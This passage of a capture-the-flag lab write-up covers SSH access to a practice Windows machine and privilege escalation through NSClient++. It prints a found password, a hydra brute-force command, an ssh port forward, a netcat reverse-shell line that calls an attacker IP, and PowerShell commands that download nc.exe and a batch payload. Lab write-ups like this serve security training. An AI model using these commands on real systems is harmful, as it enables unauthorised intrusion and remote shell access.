 SSH to machine using credentials, I do it manualy cause we have only 7 passwords. In other cases I will use hydra, example:

```
hydra -l root -P wordlist.txt $ip ssh
```

```
ssh nadine@10.10.10.184
```

Nadine L1k3B1gBut7s@W0rk

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904104712.png)

now we can grab user flag 
## Privilege Escalation

that looks promising (CVE-2019-1388) / UAC Bypass

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904110248.png)

Ok, I stuck here so checked writeup and find:
that there is also non-default application NSClient++

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904110531.png)

and we can find password in nsclient.ini

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904112123.png)

no let's port forward via ssh

```
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

go to 

```
https://127.0.0.1:8443
```

https://www.exploit-db.com/exploits/46802

create shell.bat

```
\programdata\nc.exe 10.10.14.24 443 -e cmd
```

download on machine 

```
iwr "http://10.10.14.8/nc.exe" -o "nc.exe"
iwr "http://10.10.14.8/shell.bat" -o "shell.bat"
```

login into `https://127.0.0.1:8443/`
